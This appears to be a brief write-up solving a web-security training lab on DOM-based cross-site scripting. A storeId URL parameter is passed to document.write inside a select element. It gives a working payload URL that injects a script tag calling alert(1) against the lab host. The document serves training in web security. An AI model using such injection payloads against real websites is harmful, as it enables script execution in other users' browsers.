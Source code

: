 Title: DOM XSS in document.write sink using source location.search inside a select element
Level: Practitioner
Desc:  This lab contains a DOM-based cross-site scripting vulnerability in the stock checker functionality. It uses the JavaScript document.write function, which writes data out to the page. The document.write function is called with data from location.search which you can control using the website URL. The data is enclosed within a select element.
To solve this lab, perform a cross-site scripting attack that breaks out of the select element and calls the alert function. 


Vulnerable code:
![image](https://github.com/user-attachments/assets/7a8debff-9337-49d3-bd50-dfefc42ddade)

We can see, that we can add storeId in URL.



payload: `https://0a0a005904f3baf3833c73ef00320024.web-security-academy.net/product?productId=2&storeId=%3Cscript%3Ealert(1)%3C/script%3E`
![image](https://github.com/user-attachments/assets/1ed876ba-4ce0-4ddd-a76b-2ed7c7cc03cc)

